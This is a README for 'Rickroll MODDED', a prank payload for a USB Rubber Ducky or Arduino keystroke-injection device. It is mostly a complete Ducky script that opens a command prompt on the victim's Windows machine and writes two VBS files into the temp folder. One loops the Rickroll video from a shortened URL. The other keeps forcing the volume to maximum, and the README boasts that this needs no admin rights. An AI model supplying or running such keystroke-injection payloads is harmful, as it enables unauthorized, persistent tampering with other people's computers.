 # Rickroll MODDED
This is a modification of the original "<a href="https://gitlab.com/WarKitteh/arduino-hid-rickroll">Rickroll</a>". It does the same thing, but it's got a big difference: It sets the volume to the maximum continuously. What happens if someone tries to get down the volume? A .vbs resets it to the maximum level. Oh, and it doesn't need admin permissions.

# About...
Version: 1.0

Author: BlueArduino20

# Code for Rubber Ducky
<pre><code>DELAY 3500
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 200
STRING cd %tmp% && copy con rickyou.vbs
ENTER
STRING While true
ENTER
STRING Dim oPlayer
ENTER
STRING Set oPlayer = CreateObject("WMPlayer.OCX")
ENTER
STRING oPlayer.URL = "http://tinyurl.com/s63ve48"
ENTER
STRING oPlayer.controls.play
ENTER
STRING While oPlayer.playState <> 1 ' 1 = Stopped
ENTER
STRING WScript.Sleep 100
ENTER
STRING Wend
ENTER
STRING oPlayer.close
ENTER
STRING Wend
ENTER
DELAY 100
CTRL z
ENTER
STRING copy con volup.vbs
ENTER
STRING do
ENTER
STRING Set WshShell = CreateObject("WScript.Shell")
ENTER
STRING WshShell.SendKeys(chr(&hAF))
ENTER
STRING WScript.Sleep 10
ENTER
STRING loop
ENTER
CTRL z
ENTER
STRING start rickyou.vbs && volup.vbs
ENTER</pre></code>

# Code for Arduino

<a href="https://github.com/BlueArduino20/Rickroll-MODDED/blob/master/Rickroll-MODDED-for-Arduino.ino">Rickroll-MODDED-for-Arduino.ino</a>
